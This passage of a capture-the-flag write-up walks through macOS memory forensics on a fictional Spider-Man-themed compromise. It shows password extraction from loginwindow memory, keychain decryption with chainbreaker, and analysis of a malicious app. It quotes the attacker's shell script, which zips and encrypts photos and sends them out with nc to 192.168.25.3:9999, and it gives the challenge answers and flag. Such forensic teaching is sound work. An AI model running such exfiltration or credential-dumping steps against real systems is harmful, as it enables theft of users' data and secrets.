                        <string>https://fs.flockusercontent.com/667148/ab3908f17491315471862a59?response-content-disposition=attachment%3Bfilename*%3DUTF-8%27%27ImageEnhancePro.zip&amp;Expires=1749243980&amp;Signature=XsmOpvAQ-yy~gDUI5snkCweJXIoRpbH8qJtL1j0zGl5x7EHsMLoMkvlvh7g5XLZePKbPAhB0EFCfRSw4h4Dko9duyRA-~0aqq3R4EMNmxUOxxRGONvmn-rUSjNqRCCf8j1O1m0RivONFtJPLOITxB6z3D74P14aG-zH6P5aTzMfvhBF-F0CpN3CwqlYGJS-3NiTRIrm3nDaMgEDGGwFUKsmdthkYlUPl2VVAFNDusg8oKCLfP7ibt6NtEFBzF8IRfAQ5KWOR80yuc6fFF7wi79kkS8Qs626wJaWipFMKPH4H~N-~Gdlp3fNBskpcrUVuSWsveAoScf4FROEfTqdtqw__&amp;Key-Pair-Id=APKAJMN6OEFOLBEBMIJA</string>
                </dict>
        </array>
</dict>
</plist>
```
we can see in the `string` field at the bottom of the xml plist that it was indeed download `Flock` 

Q5/15) What are the username and email address associated with the Flock account that sent the malicious application? Format: *Username_email*

To track down the Flock account behind the malicious `ImageEnhancePro.app`, after conducting some research for patterns for the format used for flock to store messages ,since Flock is a messaging platform, we figured its messages might be stashed in memory. All the flock messages can be obtained from the memory dump by using `strings` and grepping  for `flockMessages` on the whole memory dump `chall.raw` :
```
$ strings chall.raw | grep flockMessages > chats.json
```

and after formatting it into `.json` , u can easily read the messages in `"text":` field :
```
"timestamp": "1748684188695",

"timestampInMillis": 1748684188695,

"uid": "1748684188695-LP1-m203",

"actions": [],

"ignoreActions": [],

"x": {}

}

],

"chat": "vx1x621ffzs2zyy6@go.to"

}

], Parker) made sure I’d never get a fair shot here. But I’m not one to hold grudges… or am I?\nAs a parting gift, I’m sharing a tool I’ve been using to up my photography game: PhotoProEnhancer.app. It’s hands-down the best editing software I’ve come across—perfect for making those “perfect shots” that apparently I couldn’t deliver, right, Peter? It’s got some killer features that’ll make your pics pop, even if you’re just snapping Spider-Man swinging by. Give it a spin, team. Maybe it’ll help you see things from a different angle… like I do now.\n\nCatch you later (or not),\nEddie Brock","timestamp":"1749131530216","timestampInMillis":1749131530216,"uid":"1749131530216-tEO-m201","actions":[],"ignoreActions":[],"x":{}}],"chat":"667148_lobby@groups.go.to"},{"messages":[],"receipts":[{"jid":"k47pkcc74p5lb5lk@go.to","lr":1749131547760}],"flockMessages":[{"attachments":[{"forward":true,"views":{},"downloads":[{"mime":"application/x-zip-compressed","src":"https: //f.flockusercontent3.com/667148/ab3908f17491315471862a59","filename":"ImageEnhancePro.zip","size":98438,"id":"667148/ab3908f17491315471862a59"}],"buttons":[]}],"headers":{"bt":"file"},"type":"GROUPCHAT","id":"d_1749131542740_g1yq4bt1"
```

so from this we know that Eddie Brock was the one who sent the malicious application `ImageEnhancerPro.app` so we need to find the username and email (also for this question particularly i made a mistake by including it as the username in the question maybe name would have been appropriate i could not change it during the CTF because few people already have gone past it), for this we can leverage the IndexedDb  and we find an email `hecoj34842@eduhed.com` not associated with all the other members present in the team to confirm we can also add this email to our team  we can see it is Eddie Brock indeed, also from other email patterns we can figure out that `Hecoj4842` is the username 
therefore the answer is :
```
Hecoj34842_hecoj34842@eduhed.com
```

Q6/15) What is the user name and email address of the user who advised Peter Parker to take his laptop for repair, what is the name of the recommended repair service, and in which Flock channel was this advice given? Format: *User-Name_email_Place_Channel:_Name*

From the above analysis of the above question we also found:

```json
"flockMessages": [
                    {
                        "profile": {
                            "name": "Spiderman: Menace",
                            "avatar": "https://g.flockusercontent.com/channel-type-general.png",
                            "unnamed": false
                        },
                        "config": {
                            "type": "open",
                            "privileges": {
                                "teamMember": {
                                    "join": "member"
                                },
                                "groupAffiliate": {
                                    "addAffiliate": "member",
                                    "affiliationChange": "moderator",
                                    "appInstall": "moderator",
                                    "appUsage": "member",
                                    "configChange": "moderator",
                                    "deleteOthersPost": "none",
                                    "deleteSelfPost": "member",
                                    "leave": "member",
                                    "muteGroup": "member",
                                    "post": "member",
                                    "profileChange": "member",
                                    "removeAffiliate": "member",
                                    "viewMemberList": "member",
                                    "viewModeratorList": "member"
                                }
                            },
                            "loudNotification": {
                                "nameChange": "member"
                            },
                            "autoJoin": false,
                            "restricted": false
                        },
                        "members": [
                            {
                                "jid": "vx1x621ffzs2zyy6@go.to",
                                "oldAffiliation": "none",
                                "newAffiliation": "moderator"
                            },
                            {
                                "jid": "k47pkcc74p5lb5lk@go.to",
                                "oldAffiliation": "none",
                                "newAffiliation": "member"
                            }
                        ],
                        "isDeleted": false,
                        "groupVersion": 1,
                        "headers": {},
                        "type": "GROUP_UPDATE_NOTIFICATION",
                        "id": "908a73d6-e22c-4fa8-943e-2903a7ee3a69",
                        "to":"867b48b3f94649008358037031d96778@groups.go.t_
OE	o","from":"867b48b3f94649008358037031d96778@groups.go.to","actor":"vx1x621ffzs2zyy6@go.to","timestamp":"1748623639744","timestampInMillis":1748623639744,"uid":"1748623639744-pZl-m202","actions":[],"ignoreActions":[],"x":{"Grp_Version":1.0}},{"members":[{"jid":"9dm99teajkdad949@go.to","oldAffiliation":"none","newAffiliation":"member"}],"isDeleted":false,"groupVersion":2,"headers":{},"type":"GROUP_UPDATE_NOTIFICATION","id":"688fd6e5-407c-4f21-9c7d-a8add056fa67","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"867b48b3f94649008358037031d96778@groups.go.to","actor":"vx1x621ffzs2zyy6@go.to","timestamp":"1748686230985","timestampInMillis":1748686230985,"uid":"1748686230985-uGS-m203","actions":[],"ignoreActions":[],"x":{"Grp_Version":2.0}}],"chat":"867b48b3f94649008358037031d96778@groups.go.to"},{"messages":[],"flockMessages":[{"members":[{"jid":"i6ibb9sf6s99rqsr@go.to","oldAffiliation":"none","newAffiliation":"member"}],"isDeleted":false,"groupVersion":3,"headers":{},"type":"GROUP_UPDATE_NOTIFICATION","id":"4362990f-0802-463f-9e40-fc24f583c41a","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"867b48b3f94649008358037031d96778@groups.go.to","actor":"vx1x621ffzs2zyy6@go.to","timestamp":"1748687122077","timestampInMillis":1748687122077,"uid":"1748687122077-nb7-m203","actions":[],"ignoreActions":[],"x":{"Grp_Version":3.0}},{"editedOn":"1748687219814","headers":{},"type":"GROUPCHAT","id":"a_1748687192012_91NfxZlDL5","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"vx1x621ffzs2zyy6@go.to","text":"Alright, team
ve you got?","timestamp":"1748687192712","timestampInMillis":1748687192712,"uid":"1748687192712-nH4-m203","actions":[],"ignoreActions":[],"x":{}}],"chat":"867b48b3f94649008358037031d96778@groups.go.to"},{"messages":[],"flockMessages":[{"messageUid":"1748687192712-nH4-m203","headers":{},"type":"EDIT_MESSAGE","id":"a_1748687219135_2MZ4wmKY1A","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"vx1x621ffzs2zyy6@go.to","text":"Alright, team
hero or menace. Your call.","timestamp":"1748687259970","timestampInMillis":1748687259970,"uid":"1748687259970-xA7-m202","actions":[],"ignoreActions":[],"x":{}}],"chat":"867b48b3f94649008358037031d96778@groups.go.to"},{"messages":[],"flockMessages":[{"headers":{},"type":"GROUPCHAT","id":"a_1748687312623_gqDic4iOh2","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"vx1x621ffzs2zyy6@go.to","text":"Menace, obviously! Property damage? That
ve been having laptop troubles.","timestamp":"1748687810040","timestampInMillis":1748687810040,"uid":"1748687810040-Z2e-m201","actions":[],"ignoreActions":[],"x":{}}],"chat":"867b48b3f94649008358037031d96778@groups.go.to"},{"messages":[],"flockMessages":[{"headers":{},"type":"GROUPCHAT","id":"d_1748688056131_3gq8425t","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"k47pkcc74p5lb5lk@go.to","text":"Hey,yeah , about that.. my laptop\u0027s been a nightmare lately. it keeps freezing, and i can\u0027t even open my editing software half the time. I\u0027ve got some great Spider-Man shots from last week, but i cant\u0027t get to them until i fix this. Does anyone know a good tech guy? I\u0027m desperate here.","timestamp":"1748688056374","timestampInMillis":1748688056374,"uid":"1748688056374-RS9-m202","actions":[],"ignoreActions":[],"x":{}},{"headers":{},"type":"GROUPCHAT","id":"d_1748688722636_rxcqptjm","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"9dm99teajkdad949@go.to","text":"Peter, I know a reliable IT service in Midtown
d like. You really need to get those photos to Jonah soon.","timestamp":"1748688722821","timestampInMillis":1748688722821,"uid":"1748688722821-cth-m202","actions":[],"ignoreActions":[],"x":{}}],"chat":"867b48b3f94649008358037031d96778@groups.go.to"},{"messages":[],"receipts":[{"jid":"k47pkcc74p5lb5lk@go.to","lr":1748688980321}],"flockMessages":[{"headers":{},"type":"GROUPCHAT","id":"d_1748688939932_vprh7kxk","to":"867b48b3f94649008358037031d96778@groups.go.to","from":"k47pkcc74p5lb5lk@go.to","text":"Thanks, Robbie, that sounds perfect.I\u0027ll reach out to TechFix Solutions right away. I don\u0027t want to mess around with random fixes
_1074.messages=_1074.messages.concat(_1075.flockMessages);
_108c[_1096
                        ]=_108c[_1096
                        ].concat(_1095.flockMessages);
_1094+=_1095.flockMessages.length;
```

and by parsing the IndexedDb using the [`dfindexeddb`](https://github.com/google/dfindexeddb)  we get :
```json
		{
          "jid": "9dm99teajkdad949@go.to",
          "pinned": false,
          "type": "buddy",
          "id": 1748682665271.0,
          "ownerGuid": "k47pkcc74p5lb5lk",
          "name": "Robbie Robertson",
          "chatName": "Robbie R",
          "email": "jefoyil452@baxima.com",
          "mobile": {
            "__type__": "Undefined"
          }
```
also we can notice pattern that from `<flockml>` :
```xml
<flockml>Hello Peter! Jefoyil452 just joined Flock.<br/>Why don't you <action id='hi' type='sendEvent'>say Hi</action> and welcome Jefoyil452 to your team?</flockml>
```
therefore, the answer to the above question is :
```
Robbie-Robertson_jefoyil452@baxima.com_TechFix_Spiderman:_Menace
```

Q7/15) What are the login credentials of the compromised system? Format: *username:password*

For getting the credentials of the compromised system, i don't know why  but Many initially tried brute-forcing a hash to find the credentials, but a hint clarified this approach is incorrect. Instead, the solution exploits a  security flaw in Mac OS X's `LoginWindow.app`, where user credentials (usernames and passwords) are not properly cleared from memory after authentication[(refrence)](https://seclists.org/bugtraq/2008/Feb/442). This allows potential extraction of plaintext passwords from memory dumps, particularly in systems running older versions of  Mac OS X.  `Loginwindow` doesn't sanitize the user supplied password after the login is authenticated. This appears to last for the entirety of the session. The application `loginwindow` running as:
```
/System/Library/CoreServices/loginwindow.app/Contents/MacOS/loginwindow
console
```
This allows plaintext passwords to be extracted from a memory dump—a snapshot of the system's RAM so from this  [blog](https://faculty.nps.edu/ncrowe/oldstudents/icdf2c17_leopard.htm), we can see that simply by searching  for the term `longname`  in the memory dump we can see that there only  10 occurences of it and upon scrolling on 9th occurence we can find the password :

therefore the answer is :
```
admin:!_L0v3_U%3000
```
Q8/15) What is the email and password for Peter Parker’s iCloud account? Format: *email:password*
For getting the email and password for Peter Parker's iCloud account ,generally all the usernames and passwords for macOS  are managed by the default password manager `KeyChain Access`, there are two files which contain these `login.keychain` whose path is :

```
0xffffff802d714960 /Users/admin/Library/Keychains/login.keychain
```
and `system.keychain` whose path is :
```
0xffffff802243fe10 /Library/Keychains/System.keychain
```
upon dumping both of them using `mac_dump_file` from volatility 2 :
```
login.keychain:  Mac OS X Keychain File
system.keychain: Mac OS X Keychain File
```

if you are using a macOS system you  can directly try to unlock the `login.keychain` file by opening them with `Keychain Access` and then use the login password to unlock it:

we can also unlock the `.keychain` file even if we are not on a macOS system, there is a tool written by [n0fate](https://x.com/n0fate) on github called [chainbreaker](https://github.com/n0fate/chainbreaker) which helps us to unlock `.keychain` files if we either have the password or master key , well in this case we already have the password `!_L0v3_U%3000` with us , so we don't need the master key to unlock it , by using `chainbreaker` on the `login.keychain` we get the iCloud account password as a generic password record:
 

```
$ chainbreaker --dump-all login.keychain --password  '!_L0v3_U%3000' | grep iCloud
2025-07-29 16:02:35,997 - INFO -         [-] Print Name: b'iCloud - peter.parker@icloud.com'
2025-07-29 16:02:35,997 - INFO -         [-] Service: b'iCloud - peter.parker@icloud.com'
2025-07-29 16:02:35,997 - INFO -         [-] Password: Spidey_iCloud_123
```

therefore the answer is :
```
peter.parker@icloud.com:Spidey_iCloud_123
```

Q9/15) What are the master key, database key, record key, and SSGP label for the keychain record containing Peter Parker’s Gmail account credentials? Format: *masterkey_dbkey_recordkey_SSGP-label*
 For this question in order to get  the master key, database key, record key and SSGP label for the keychain record with Peter Parker's Gmail account credentials ,we need to dig into the  structure of  macOS `.keychain` file , and also i found this super  [interesting paper](https://repo.zenk-security.com/Forensic/Keychain%20Analysis%20with%20Mac%20OS%20X%20Memory%20Forensics.pdf) on  `Keychain Analysis with Mac OS X Memory Forensics`  that breaks it down perfectly, here is an illustration from the paper depicting the Keychain Structure :

Also in order to get familiar with all the terms and phrases here is a brief of what each term is and its usage described below:
- The `.keychain` file uses the Apple Database format, with a header, schema, and tables (Figure 4 in the paper). The keychain stores encrypted credentials in tables like `CSSM_DL_DB_INTERNET_PASSWORD` for Gmail accounts

- **Master Key**: This is a 24-byte key used to unlock the keychain’s secrets. In macOS Lion (10.7) and later, it hangs out in the `securityd` process’s `MALLOC_TINY` memory region (1MB chunk). It’s either derived from the user’s login password (like `!_L0v3_U%3000` from Q7) or grabbed directly from a memory dump using tools like volatility’s `mac_keychaindump` in our case(the paper mentions that we can use `volafox`'s  `keychaindump` plugin too which is also one of the tool written by [n0fate](https://x.com/n0fate) for macOS memory analysis). The paper explains it’s 0x18 bytes long and validated by checking the keychain file’s signature.
- **Database Key**: A 24-byte key stored in the `DbBlob` record of the `CSSM_DL_DB_RECORD_METADATA` table in the `.keychain` file. It’s encrypted with the master key using Triple DES (3DES) in CBC mode with PKCS#1 padding. Once decrypted, it’s the key to unlocking record keys. The paper’s Figure 7 shows the `DbBlob` structure with a salt, IV, and encrypted database key:
  
- **Record Key**: Another 24-byte key, found in the `KeyBlob` record of the `CSSM_DL_DB_SYMMETRIC_KEY` table(ref. Figure 8 in the paper). It’s encrypted with the database key (3DES, CBC, PKCS#1) and needs two decryptions: first with a fixed IV (`magicCmsIv`: `4adda22c79e82105`), then with the `KeyBlob`’s own IV, reversing the first output’s octets (see Figure 10 in the paper).



This key decrypts specific credentials, like for instance Peter Parker’s Gmail password in our case.
- **SSGP Label**: A 16-byte identifier tagged with the signature `ssgp` in both `KeyBlob` and `DataBlob` records. It links a record key to the right user credential in the `CSSM_DL_DB_INTERNET_PASSWORD` table (since Gmail is an internet account). The paper’s Figure 9 shows the `KeyBlob` structure with the SSGP label right after the signature.

summing everything up from the above , we can use the `chainbreaker` tool itself to get all the above mentioned items since we already have the login password `!_L0v3_U%3000`, and also  an understanding of how keychain files work in storing and decrypting the password, we just need to tweak the `chainbreaker.py` script under `chainbreaker` a bit such that it prints all the keys and the SSGP label . here is the tweaked version of the script:
```py
#!/usr/bin/python

# Author : n0fate
# E-Mail rapfer@gmail.com, n0fate@n0fate.com
#
# 10/7/2020 - Significant changes made by luke@socially-inept.net
#
# This program is free software; you can redistribute it and/or modify
# it under the terms of the GNU General Public License as published by
# the Free Software Foundation; either version 2 of the License, or (at
# your option) any later version.
#
# This program is distributed in the hope that it will be useful, but
# WITHOUT ANY WARRANTY; without even the implied warranty of
# MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU
# General Public License for more details.
#
# You should have received a copy of the GNU General Public License
# along with this program; if not, write to the Free Software
# Foundation, Inc., 59 Temple Place, Suite 330, Boston, MA 02111-1307 USA
#
import struct

from pbkdf2 import PBKDF2

from schema import *

from schema import _APPL_DB_HEADER, _APPL_DB_SCHEMA, _TABLE_HEADER, _DB_BLOB, _GENERIC_PW_HEADER, \
    _KEY_BLOB_REC_HEADER, _KEY_BLOB, _SSGP, _INTERNET_PW_HEADER, _APPLE_SHARE_HEADER, _X509_CERT_HEADER, _SECKEY_HEADER, \
    _UNLOCK_BLOB, _KEYCHAIN_TIME, _INT, _FOUR_CHAR_CODE, _LV, _TABLE_ID, _RECORD_OFFSET

from pyDes import TripleDES, CBC

from binascii import unhexlify, hexlify

import logging

import base64

import string

import uuid

# ... [script continues] ...
```

so after tweaking and running the `chainbreaker.py`:
```
2025-07-30 19:00:16,305 - INFO - Runtime Command: chainbreaker.py login.keychain -a --password-prompt
2025-07-30 19:00:16,305 - INFO - Keychain: login.keychain
2025-07-30 19:00:16,305 - INFO - Keychain MD5: 870f997577873112451b2674d1791b97
2025-07-30 19:00:16,305 - INFO - Keychain 256: 5f1f5c59f8164ca882842fca173be7d769f76e0bc9944e026234f01d678b9f32
2025-07-30 19:00:16,305 - INFO - Dump Start: 2025-07-30 19:00:16.305391
[+] Master Key: 2c1f42204086006d6739c650bcb64bcd4e8942b4308f4377
[+] DB Key: 4fac89ac4d2c7c59b7e55fc08aa92b43bdd3924c817a446b
```
```

2025-07-30 18:58:41,807 - INFO -   [-] Account: peter.parker@dailybugle.com
2025-07-30 18:58:41,807 - INFO -   [-] Service: Gmail - peter.parker@dailybugle.com
2025-07-30 18:58:41,807 - INFO -   [-] Password: WebSlinger2025!
2025-07-30 18:58:41,807 - INFO -   [-] SSGP Label: ed0de6b1805158208ad272a7ec57f727
2025-07-30 18:58:41,807 - INFO -   [-] Record DBKey: b508c427e0bbbfacf7c41e4109177712388daa47e331e262
```

therefore the answer is :
```
2c1f42204086006d6739c650bcb64bcd4e8942b4308f4377_4fac89ac4d2c7c59b7e55fc08aa92b43bdd3924c817a446b_b508c427e0bbbfacf7c41e4109177712388daa47e331e262_ed0de6b1805158208ad272a7ec57f727
```

Q10/15) What is the name of the binary executed by the malicious application, and what is the SHA-256 hash of the binary? Format: *binaryname_binaryhash*

In Question 3, we sniffed out `ImageEnhancePro.app` as the culprit behind the system’s infection, found in the Downloads folder via Volatility’s `mac_list_files`. Digging into its `main.scpt` with applescript-disassembler, we saw it pulls a shady move: it grabs a file named preview from `ImageEnhancePro.app/Contents/Resources/`  and executes it via `syso-exec`, storing it as `venomPath` (suspicious much?). This makes preview the binary executed by the malicious app.
and the SHA-256 hash of this binary is `45b098a1208cf63c8ad0beab32ab6d2f9ff2dbf05b6d88382acde55170fcf559`
therefore, the answer for this question is :
```
preview_45b098a1208cf63c8ad0beab32ab6d2f9ff2dbf05b6d88382acde55170fcf559
```

Q11/15) What is the IP address and port number to which the attacker established a connection from the compromised system? Format: *ipaddress:port*
Since we already know that the  malicious binary is a  Mach-O executable named `preview`. Let's start by checking what we're dealing with:

[...output truncated for brevity...]

Therefore, the IP address and port number to which the attacker established a connection from the compromised system is : `192.168.25.3:4444`

Q12/15) What are the key and initialization vector (IV) used by the malicious application to decrypt its payload, and what compression method was used for the payload ? Format: *key_iv_compression*

From the analysis of the `preview` binary in Q11 we can see that key and and initialization vector (IV)  used by the malicious application to decrypt its payload is derived from the `Hardware-UUID` of the device, which is unique for each and every device when looking up online we found that we can find this `Hardware-UUID` from a particular artifact:
.png)
Source: https://discussions.apple.com/thread/7759719?sortBy=rank
From the output of the `mac_list_files` usin volatility 2 , we can get the path of the Keychain files under `~/Library/Keychains` we can get the `Hardware-UUID` of this device:
```
0xffffff80247d4000 /Users/admin/Library/Keychains/564D245B-513D-024D-D236-4BF7887A32FC/keychain-2.db-wal
```

Hence from observing the above path we can conclude that the `Hardware-UUID` is `564D245B-513D-024D-D236-4BF7887A32FC`
Now from the previous analysis of the `preview` binary we know that :
- **Key:** SHA-256 hash of `Hardware-UUID` 
- **IV:** MD5 hash of `Hardware-UUID`
So the key and iv are `7b8049c197d6f91bab9d983dca12f743cfdc3bdc4ff0f89349f1fdab6e46ce8c` and `0878db6e1ec69f91623fa63250e8fc3b` respectively , we can also get the compression method used from our previous analysis, that is gzip
Therefore, the answer for this question is :

```
7b8049c197d6f91bab9d983dca12f743cfdc3bdc4ff0f89349f1fdab6e46ce8c_0878db6e1ec69f91623fa63250e8fc3b_gzip
```

Q13/15) At what path does the malicious application write the decrypted payload to, and what is the SHA-256 hash of the decrypted payload? Format: */binary/path_hash*
We already saw from our previous analysis of the `preview` binary that the decrypted payload was being written to the path `/tmp/com.apple.updatesvc` and the SHA-256 hash is `98e656aa1d6dbb2781eb41c28897c4b3d52afdb80c2e7ab0861196004f15a562` 
Therefore, the answer to this question is :

```
/tmp/com.apple.updatesvc_98e656aa1d6dbb2781eb41c28897c4b3d52afdb80c2e7ab0861196004f15a562
```


Q14/15) What are the names of the files that have been exfiltrated by the attacker from the host? Format: *File names in ascending order, separated by commas (eg, file_name1,file_name2,...,file_name)*

After the decrypted reverse shell payload establishes a connection, while looking under the `/tmp` directory where the decrypted payload (shellcode loader) was written to, we found a shell script with a random name `dubvm20.sh`, which looked suspicious upon inspecting the content :

```sh
cd /users/admin/Pictures/spidey
zip /tmp/pics.zip *.jpeg
openssl enc -aes-256-cbc -salt -in /tmp/pics.zip -out /tmp/pics.enc -k w3_4r3_v3n0m
cat /tmp/pics.enc| nc 192.168.25.3 9999
```

We can clearly see that the attacker is trying to exfiltrate the files under  `/users/admin/Pictures/spidey` by zipping all of them into `pics.zip`, storing it under `/tmp`
and then later using `openssl` to encrypt  the zip file before sending it over the `netcat` connection,
we can also find the `pics.zip` under `/tmp`, after dumping `pics.zip` using the `mac_dump_file` plugin from Volatility 2:

```
Volatility Foundation Volatility Framework 2.6.1
Wrote 59482 bytes to pics.zip from vnode at address ffffff8028692870
```
We can unzip `pics.zip` and then see the files that the attacker has exfiltrated:


*700.jpeg*

*778.jpeg*

*779.jpeg*

*780.jpeg*

Therefore, the answer to this question is :

```
700.jpeg,778.jpeg,779.jpeg,780.jpeg
```


Q15/15) What is the encryption key used to secure the exfiltrated data, and what port number was used for the exfiltration process? Format: *key:port*

As we can see from the previous analysis of `dubvm20.sh`, the encryption key used to secure the exfiltrated data is `w3_4r3_v3n0m` and the port number used for the exfiltration process is `9999`

Therefore, the answer to this question is :

```
w3_4r3_v3n0m:9999
```
### Flag

`bi0sctf{Ey3s_1ung5_p4ncr3a5_5o_m4ny_5n4cks_s0_l1ttl3_t1m3!!}`


- Remember: **"With great power comes great responsibility"** 

*P.S.: If you found this writeup helpful or have questions regarding any part of the writeup, feel free to reach out on Discord.*
*continue learning!* 🕷️

### Author

[gh0stkn1ght](https://twitter.com/mspr75)
